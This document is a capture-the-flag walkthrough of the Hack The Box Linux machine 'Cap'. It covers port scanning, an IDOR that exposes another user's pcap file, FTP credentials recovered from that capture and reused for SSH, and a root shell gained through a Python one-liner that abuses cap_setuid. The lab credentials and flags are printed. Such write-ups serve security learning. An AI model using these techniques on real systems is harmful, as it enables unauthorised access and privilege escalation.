| Target Property  | Details                   |
| :--------------- | :------------------------ |
| **Machine Name** | Cap                       |
| **Platform**     | Hack The Box (Easy Linux) |
| **Server IP**    | 10.129.108.129            |
| **Open Ports**   | 21,22,80                  |
| **Date Solved**  | 2026/11/24                |


[Hack The Box - Cap](https://app.hackthebox.com/machines/Cap)


Port Scan
```
┌──(chako㉿kali)-[~/writeup/htb/easy/linux/6-Cap]
└─$ nmap -p- -vvv --min-rate 10000 cap.htb -oN nmap/cap_allport --open  
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-24 14:59 -0500
mass_dns: Using DNS server 192.168.4.1
mass_dns: Using DNS server fd0c:6c7b:e14c:1::1
Initiating Parallel DNS resolution of 1 host. at 14:59
Completed Parallel DNS resolution of 1 host. at 14:59, 0.00s elapsed
Initiating Ping Scan at 14:59
Scanning cap.htb (10.129.108.129) [4 ports]
Completed Ping Scan at 14:59, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:59
Completed Parallel DNS resolution of 1 host. at 14:59, 0.00s elapsed
Initiating SYN Stealth Scan at 14:59
Scanning cap.htb (10.129.108.129) [65535 ports]
Discovered open port 22/tcp on 10.129.108.129
Discovered open port 80/tcp on 10.129.108.129
Discovered open port 21/tcp on 10.129.108.129
Completed SYN Stealth Scan at 14:59, 7.89s elapsed (65535 total ports)
Nmap scan report for cap.htb (10.129.108.129)
Host is up, received reset ttl 63 (0.079s latency).
Scanned at 2026-11-24 14:59:27 EST for 8s                                                           Not shown: 64672 closed tcp ports (reset), 860 filtered tcp ports (no-response)                     Some closed ports may be reported as filtered due to --defeat-rst-ratelimit                         PORT   STATE SERVICE REASON                                                                         21/tcp open  ftp     syn-ack ttl 63                                                                 22/tcp open  ssh     syn-ack ttl 63                                                                 80/tcp open  http    syn-ack ttl 63                                                                 Read data files from: /usr/share/nmap                                                               Nmap done: 1 IP address (1 host up) scanned in 8.09 seconds                                                    Raw packets sent: 78028 (3.433MB) | Rcvd: 67799 (2.712MB)                                


┌──(chako㉿kali)-[~/writeup/htb/easy/linux/6-Cap]
└─$ nmap -p 21,22,80 -sCV cap.htb -oN nmap/cap.htb                                                  Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-24 15:03 -0500
Nmap scan report for cap.htb (10.129.108.129)
Host is up (0.079s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.00 seconds

```

we do see there is web service running on port 80
the web server is using `gunicorn`
```

└─$ curl -v http://cap.htb
*   Trying 10.129.108.129:80...
* Host cap.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.108.129
* Established connection to cap.htb (10.129.108.129 port 80) from 10.10.15.31 port 47796 
* using HTTP/1.x
> GET / HTTP/1.1
> Host: cap.htb
> User-Agent: curl/8.23.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: gunicorn
< Date: Tue, 24 Nov 2026 20:06:53 GMT
< Connection: keep-alive
< Content-Type: text/html; charset=utf-8
< Content-Length: 19386
< 
<!DOCTYPE html>
<html class="no-js" lang="en">
```


and as we can see we already login as user `Nathan`



we also can see the website will show ip config and network status information



the security snapshot page that allow you to donwload `.pcap` file



we can use Burp Suit's Intruder to check if we are able to view other user's data by changing the `id` value
I create a payload from 0 ~ 1000



we do found id 0 has different the same status code and length as id 1 . which means it is highly posible
that we are able to view and check id 0 's data



We are able to view id 0 's page and be able to download the .pcap file



in the 0.pcap file we do see there is record for http and ftp traafic


we found ftp login packet which shows login username and password!!  `nathan`  /  `Buck3tH4TF0RM3!`



we can use that login credential to ssh and ftp login to the server
```
┌──(chako㉿kali)-[~/writeup/htb/easy/linux/6-Cap]
└─$ ssh nathan@cap.htb
The authenticity of host 'cap.htb (10.129.108.129)' can't be established.
ED25519 key fingerprint is: SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
nathan@cap.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 24 20:50:35 UTC 2026

  System load:           0.0
  Usage of /:            36.7% of 8.73GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.129.108.129
  IPv6 address for eth0: dead:beef::a0de:adff:fe30:f9bc

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.                                              To check for new updates run: sudo apt update                                                       Last login: Thu May 27 11:21:27 2021 from 10.10.14.7                                                nathan@cap:~$ cat user.txt                                                                          476acaf208e488d2a43aba25acc3bc64                                                                    nathan@cap:~$ 


┌──(chako㉿kali)-[~/writeup/htb/easy/linux/6-Cap]
└─$ ftp nathan@cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||18094|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Nov 24 19:53 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||36322|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |******************************************************************************************************************************************************************************************************|    33      290.32 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.39 KiB/s)
ftp> !cat user.txt
476acaf208e488d2a43aba25acc3bc64
ftp> 
      
```


user nathan is not part of sudo group
```
nathan@cap:~$ sudo -l
[sudo] password for nathan:                                                                         Sorry, user nathan may not run sudo on cap.                                                         nathan@cap:~$   
```


lets user linpea to check potential privilege path



With Linpea's help we found `/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip`


```
nathan@cap:~$ getcap -r / 2>/dev/null | grep cap_setuid                                             /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

nathan@cap:~$ ls -la /usr/bin/python3.8 
-rwxr-xr-x 1 root root 5486384 Jan 27  2021 /usr/bin/python3.8                                      nathan@cap:~$       
```


we can use that to gain root access



Escalating to Root
Even though `/usr/bin/python3.8` does not have the SUID bit set (`-rwxr-xr-x` instead of `-rwsr-xr-x`), it has been assigned **`cap_setuid+eip`** (Effective, Inheritable, and Permitted). Because the binary is world-executable (`x` for all users), any user can run Python and instruct the Linux kernel to change the process's User ID (`UID`) to `0` (`root`).
```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
b973f1b0c3f29234f105bd50126a6aab
root@cap:/root# 

```


